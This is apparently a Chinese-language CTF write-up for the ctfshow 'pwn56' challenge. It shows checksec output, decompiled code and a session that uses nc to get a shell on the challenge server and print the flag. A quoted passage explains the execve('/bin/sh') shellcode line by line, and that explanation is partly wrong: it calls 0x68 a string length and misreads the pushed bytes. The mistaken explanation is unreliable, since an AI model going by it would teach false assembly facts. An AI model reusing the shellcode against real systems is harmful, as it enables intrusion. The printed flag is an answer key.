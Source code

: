 ```
tasike@tasike-VM:~/Desktop$ chmod 777 pwn56
```

```
tasike@tasike-VM:~/Desktop$ file pwn56
pwn56: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

```
tasike@tasike-VM:~/Desktop$ checksec pwn56
[*] '/home/tasike/Desktop/pwn56'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

`32bit`，未开启任何保护

`ida`查看

```c
void __noreturn start()
{
  int v0; // eax
  char v1[10]; // [esp-Ch] [ebp-Ch] BYREF
  __int16 v2; // [esp-2h] [ebp-2h]

  v2 = 0;
  strcpy(v1, "/bin///sh");
  v0 = sys_execve(v1, 0, 0);
}
```

就一个函数，而且貌似直接就获得最高权限了？

于是在本地试一下

```
tasike@tasike-VM:~/Desktop$ ./pwn56
$ ls
CGfsb				     attack_format_level3.py	 attack_shellcode_level3.py	   format_level3  pwn56		    tasike.c
CGfsb_exp.py			     attack_little_canary.py	 attack_uninitialized_key.py	   heap_Easy_Uaf  pwn6		    test
LibcSearcher.py			     attack_name4.py		 attack_uninitialized_key_plus.py  level0_exp.py  pwndbg	    test.c
PIE_enabled			     attack_play.py		 attack_woof.py			   level2_exp.py  rePWNse	    test.py
VMwareTools-10.3.25-20206839.tar.gz  attack_rePWNse.py		 checksec.sh			   little_canary  ret2libc	    test_int_overflow.c
__pycache__			     attack_ret2libc.py		 exp.py				   name4	  ret2syscall	    uninitialized_key
attack.py			     attack_ret2syscall.py	 f1ag				   play		  ret2text_32	    uninitialized_key_plus
attack52.py			     attack_ret2text_32.py	 fakeflag-backend		   pwn25	  ret2text_64	    vmware-tools-distrib
attack53.py			     attack_ret2text_64.py	 fd.c				   pwn30	  shellcode_level0  woof
attack_PIE_enabled.py		     attack_shellcode_level0.py  fork.c				   pwn51	  shellcode_level1
attack_format_level0.py		     attack_shellcode_level1.py  format_level0			   pwn52	  shellcode_level2
attack_format_level1.py		     attack_shellcode_level2.py  format_level1			   pwn53	  shellcode_level3
```

还真是获取最高权限了，那这题都不需要脑子（笑哭.jpg）

```
tasike@tasike-VM:~/Desktop$ nc pwn.challenge.ctf.show 28219

ls
bin
boot
ctfshow_flag
dev
etc
home
lib
lib32
lib64
media
mnt
opt
proc
pwn
root
run
sbin
srv
start.sh
sys
tmp
usr
var
cat ctfshow_flag
ctfshow{6fa139f7-bad3-46d2-9604-1a2213a47794}
```



>  我又回来了，感觉直接这样做出来没啥意义，索性把汇编代码拿出来分析
>  ```assembly
>  push    68h
>  push    732F2F2Fh
>  push    6E69622Fh
>  mov     ebx, esp
>  xor     ecx, ecx
>  xor     edx, edx
>  push    0Bh
>  pop     eax
>  int     80h
>  ```
>
>  这段代码是x86汇编语言的代码，用于在Linux系统上执行一个系统调用来执行
>
>  execve("/bin/sh", NULL, NULL) 。让我们逐行解析代码的功能：
>
>  
>
>  ```assembly
>  push    68h
>  ```
>
>  这行代码将十六进制值 0x68 （104的十进制表示）压入栈中。这是为了将后续的字符串 "/bin/sh" 
>
>  的长度（11个字符）放入栈中，以便后续使用。
>
>  
>
>  ```assembly
>  push    732F2F2Fh
>  ```
>
>  这行代码将十六进制值 0x732f2f2f 压入栈中。这是字符串 "/bin/sh" 的前半部分字符的逆序表 示，即 "sh//"。这是因为x86架构是小端字节序的，字符串需要以逆序方式存储在内存中。
>
>   
>
>  ```assembly
>  push    6E69622Fh
>  ```
>
>  这行代码将十六进制值 0x6e69622f 压入栈中。这是字符串 "/bin/sh" 的后半部分字符的逆序表示，即 "/bin"。
>
>   
>
>  
